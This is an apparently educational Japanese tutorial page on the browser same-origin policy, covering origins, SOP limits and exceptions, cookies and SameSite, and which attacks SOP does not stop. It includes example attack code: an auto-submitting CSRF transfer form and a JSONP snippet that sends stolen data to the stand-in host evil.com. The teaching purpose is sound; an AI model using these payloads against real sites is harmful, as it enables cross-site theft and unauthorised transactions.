





# 同一オリジンポリシー

> ブラウザが備える最も重要なセキュリティ機構である「同一オリジンポリシー（SOP）」の仕組みを解説します。受動的攻撃を理解する上で不可欠な前提知識です。

---

## 能動的攻撃と受動的攻撃

Webアプリケーションに対する攻撃は、大きく2つに分類される。

### 能動的攻撃（Active Attack）

攻撃者が**直接サーバーに**悪意のあるリクエストを送信する攻撃。



例: SQLインジェクション、コマンドインジェクション、ブルートフォース攻撃

攻撃者自身がリクエストを送信するため、攻撃元のIPアドレスが記録される。サーバー側の入力検証やWAFで防御できる。

### 受動的攻撃（Passive Attack）

攻撃者が**被害者のブラウザを経由して**攻撃する手法。攻撃者は罠を仕掛け、被害者がそれを踏むのを待つ。



例: XSS（クロスサイトスクリプティング）、CSRF（クロスサイトリクエストフォージェリ）

受動的攻撃では、**正規ユーザーのブラウザから正規のリクエストが送信される**ため、サーバーから見ると正常なリクエストと区別がつきにくい。ブラウザはこの種の攻撃を防ぐために**同一オリジンポリシー**を実装している。

---

## ブラウザのサンドボックス概念

ブラウザは信頼できないコード（Webページ上のJavaScript）を実行する環境である。ユーザーが訪問するWebサイトは攻撃者が運営するものかもしれないし、正規サイトにXSSで注入されたスクリプトかもしれない。

このため、ブラウザは<strong>サンドボックス（砂場）</strong>の概念でセキュリティを確保している。

| 制限 | 説明 |
|------|------|
| ファイルシステムアクセスの制限 | JavaScriptはユーザーのファイルを自由に読み書きできない |
| ネットワークアクセスの制限 | 同一オリジンポリシーにより、他のオリジンへのアクセスが制限される |
| OS機能へのアクセスの制限 | カメラやマイクは許可が必要、OSコマンドは実行不可 |
| 他のタブ/ウィンドウの分離 | 異なるオリジンのタブ同士はデータを共有できない |

同一オリジンポリシーは、このサンドボックスの中核をなすセキュリティ機構である。

---

## オリジンの定義

<strong>オリジン（Origin）</strong>は、以下の3つの要素の組み合わせで定義される。

```
オリジン = スキーム + ホスト + ポート
```

| URL | スキーム | ホスト | ポート | オリジン |
|-----|----------|--------|--------|----------|
| `https://example.com/page` | https | example.com | 443 | `https://example.com` |
| `http://example.com/page` | http | example.com | 80 | `http://example.com` |
| `https://api.example.com/data` | https | api.example.com | 443 | `https://api.example.com` |
| `https://example.com:8080/` | https | example.com | 8080 | `https://example.com:8080` |

### 同一オリジンの判定例

基準URL: `https://example.com/page1`

| 比較対象URL | 同一オリジン? | 理由 |
|-------------|---------------|------|
| `https://example.com/page2` | 同一 | パスが異なるだけ |
| `https://example.com:443/page2` | 同一 | httpsのデフォルトポートは443 |
| `http://example.com/page1` | **異なる** | スキームが異なる（https vs http） |
| `https://api.example.com/page1` | **異なる** | ホストが異なる（サブドメイン違い） |
| `https://example.com:8080/page1` | **異なる** | ポートが異なる |
| `https://example.org/page1` | **異なる** | ホストが異なる |

**重要**: サブドメインが異なれば別オリジンである。`example.com` と `api.example.com` は同一オリジンではない。

---

## 同一オリジンポリシー（SOP）の具体的な制限内容

同一オリジンポリシー（Same-Origin Policy, SOP）は、**あるオリジンから読み込まれたドキュメントやスクリプトが、別のオリジンのリソースにアクセスすることを制限する**ブラウザのセキュリティ機構である。

### DOMアクセスの制限

異なるオリジンのページのDOMにはアクセスできない。

```javascript
// https://evil.com のスクリプト
const iframe = document.createElement('iframe');
iframe.src = 'https://bank.example.com/account';
document.body.appendChild(iframe);

// 同一オリジンポリシーにより、iframeの中身にはアクセスできない
iframe.onload = () => {
  try {
    // ⚠️ SecurityError: 異なるオリジンのDOMにアクセスできない
    const balance = iframe.contentDocument.getElementById('balance').textContent;
    console.log(balance);  // 実行されない
  } catch (e) {
    console.error(e);  // "SecurityError: Blocked a frame with origin..."
  }
};
```

これがなければ、攻撃者のサイトにiframeで銀行サイトを埋め込み、ユーザーの残高情報を盗み出すことが可能になってしまう。

### XMLHttpRequest / fetch の制限

JavaScriptから異なるオリジンへのHTTPリクエストを送信し、その**レスポンスを読み取ること**が制限される。

```javascript
// https://evil.com のスクリプト
// 銀行サイトのAPIからデータを取得しようとする
fetch('https://bank.example.com/api/account', {
  credentials: 'include'  // 銀行サイトのCookieを送信
})
.then(response => response.json())
.then(data => {
  // ⚠️ SOPにより、レスポンスの読み取りがブロックされる
  // ブラウザコンソールに以下のエラーが表示される:
  // "Access to fetch at 'https://bank.example.com/api/account' from origin
  //  'https://evil.com' has been blocked by CORS policy"
  console.log(data);
});
```

**注意点**: SOPが制限するのは**レスポンスの読み取り**であり、**リクエストの送信自体は制限しない場合がある**。これがCSRF攻撃が成立する理由の一つである。単純なリクエスト（後述）はCORSプリフライトなしで送信され、サーバー側で処理されてしまう。

### Cookieの送信ルール

Cookieの送信はオリジン単位ではなく、**ドメインとパス**に基づいて制御される。

```
# Domain=example.com のCookieは以下に送信される:
example.com         → 送信される
sub.example.com     → 送信される（サブドメインにも送信）
other.com           → 送信されない

# Domain属性なしのCookieは設定元のドメインにのみ送信
# (サブドメインには送信されない)
```

さらに、`SameSite` 属性がクロスサイトリクエストでのCookie送信を制御する:

| SameSite値 | 同一サイトリクエスト | クロスサイトGET（トップレベル） | クロスサイトPOST |
|------------|---------------------|-------------------------------|-----------------|
| Strict | 送信 | **不送信** | **不送信** |
| Lax | 送信 | 送信 | **不送信** |
| None | 送信 | 送信 | 送信 |

---

## SOPの例外

同一オリジンポリシーには歴史的な理由による例外がある。以下の要素はクロスオリジンのリソースを<strong>読み込む（埋め込む）</strong>ことができる。

| HTML要素 | 読み込めるリソース | レスポンスの読み取り |
|----------|-------------------|---------------------|
| `` | 画像 | 読み取れない（表示のみ） |
| `<script src="...">` | JavaScript | 実行されるが、ソースコードは読み取れない |
| `<link rel="stylesheet" href="...">` | CSS | 適用されるが、CSSOMからの読み取りは制限される |
| `<iframe src="...">` | Webページ | 表示されるが、DOMにはアクセスできない |
| `<video>`, `<audio>` | メディア | 再生されるが、コンテンツの読み取りは制限される |
| `<form action="...">` | フォーム送信先 | リクエストは送信されるが、レスポンスは新しいページとして表示される |

### セキュリティ上の意味

これらの例外は攻撃に悪用される:

```html
<!-- CSRF: formタグで異なるオリジンにPOSTリクエストを送信 -->
<form action="https://bank.example.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000000">
</form>
<script>document.forms[0].submit();</script>

<!-- 情報窃取: imgタグでリクエストを送信（GETリクエスト + Cookie） -->


<!-- scriptタグでJSONPを利用したデータ取得（レガシーな手法） -->
<script src="https://api.example.com/data?callback=steal"></script>
<script>
function steal(data) {
  // 取得したデータを攻撃者のサーバーに送信
  new Image().src = 'https://evil.com/collect?data=' + JSON.stringify(data);
}
</script>
```

---

## SOPとCORSが防ぐ攻撃、防げない攻撃

### 防ぐ攻撃

| 攻撃 | SOPがどう防ぐか |
|------|-----------------|
| クロスオリジンでのデータ窃取 | 攻撃者のサイトから `fetch` で被害者のデータを読み取ることをブロック |
| iframeによるDOM読み取り | 異なるオリジンのiframeのDOMにアクセスすることをブロック |
| CORS misconfiguration経由の情報漏洩 | 適切なCORS設定であれば、認証付きクロスオリジンリクエストのレスポンスをブロック |

### 防げない攻撃

| 攻撃 | SOPで防げない理由 |
|------|-------------------|
| **CSRF** | SOPはリクエストの**送信**を止めない。formタグやimgタグによるリクエスト送信はSOPの例外であり、Cookieも自動送信される。攻撃者はレスポンスを読む必要がなく、リクエストを送信させるだけで目的を達成する |
| **XSS** | XSSにより注入されたスクリプトは、被害者のページと**同じオリジン**で実行される。SOPの保護対象は「異なるオリジン」であるため、同一オリジン内のスクリプトには制限がかからない |
| **クリックジャッキング** | iframeで正規サイトを埋め込み、透明にして重ねる手法。SOPはiframeの表示自体は制限しない。`X-Frame-Options` や CSP `frame-ancestors` で対策する |
| **サーバーサイドの攻撃** | SQLインジェクション、コマンドインジェクション等はサーバー側の問題であり、ブラウザのSOPとは無関係 |
| **JSONP経由のデータ漏洩** | `<script>` タグでのクロスオリジン読み込みはSOPの例外。JSONPエンドポイントが残っていると、攻撃者がスクリプトとしてデータを取得できる |

### まとめ図



---

## 攻撃フロー図

### 受動的攻撃のフロー



### 受動的攻撃への対策（SOP/CORS）



---

## 関連ラボ

以下のラボで、本ドキュメントの知識を実際に試すことができる:

### 受動的攻撃

| ラボ | 関連する知識 |
|------|--------------|
| [CSRF](../../step04-session/csrf.mdx) | SOPが防げない攻撃の代表例。フォーム送信がSOPの例外であること、Cookieの自動送信がCSRFを可能にすることを体験する |
| [XSS](../../step02-injection/xss) | 注入されたスクリプトが同一オリジンで実行されるため、SOPの保護を受けられないことを体験する |
| [クリックジャッキング](../../step07-design/clickjacking.mdx) | iframeによるクロスオリジン埋め込みがSOPの例外であることを悪用した攻撃を体験する |

### オープンリダイレクト

| ラボ | 関連する知識 |
|------|--------------|
| [オープンリダイレクト](../../step02-injection/open-redirect) | リダイレクト先の検証不備により、信頼されたドメインからの遷移を装って攻撃者のサイトに誘導する手法 |

---

## 参考資料

- [MDN - 同一オリジンポリシー](https://developer.mozilla.org/ja/docs/Web/Security/Same-origin_policy)
- [RFC 6454 - The Web Origin Concept](https://datatracker.ietf.org/doc/html/rfc6454)
